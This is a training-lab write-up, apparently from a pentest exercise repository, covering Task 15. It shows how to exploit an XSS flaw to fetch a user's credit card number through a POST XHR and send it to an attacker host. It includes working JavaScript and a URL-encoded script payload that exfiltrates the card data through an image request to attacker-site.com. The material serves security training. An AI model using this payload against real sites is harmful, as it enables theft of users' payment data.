 ## Task 15 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/15)</small>

Objectives:

1. Find John's Credit Card Number using an XSS vulnerability on this page
2. Post the Credit Card Number to your Attacker Server

So this is pretty much same as [TASK_14](https://github.com/tbhaxor/pt-jsfp/blob/main/TASK_14.md). Only the URL is changed and delivery method is changed

So the target URL is `http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore`, and we have to send a POST XHR with `user=john` data

You can send the POST body in `.send` method of XHR object. [See this example](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send#Example_POST)

```js
const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    new Image().src = "http://attacker-site.com?card=" + xhttp.responseText;
  }
};
xhttp.open("POST", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore", true);
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.send("user=john");
```

For POC, [Click Here](%3Cscript%3Econst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20new%20Image%28%29.src%20%3D%20%22http%3A%2F%2Fattacker-site.com%3Fcard%3D%22%20%2B%20xhttp.responseText%3B%0A%20%20%7D%0A%7D%3B%0Axhttp.open%28%22POST%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F15%2Fcardstore%22%2C%20true%29%3B%0Axhttp.setRequestHeader%28%22Content-Type%22%2C%20%22application%2Fx-www-form-urlencoded%22%29%3B%0Axhttp.send%28%22user%3Djohn%22%29%3B%0A%3C%2Fscript%3E)
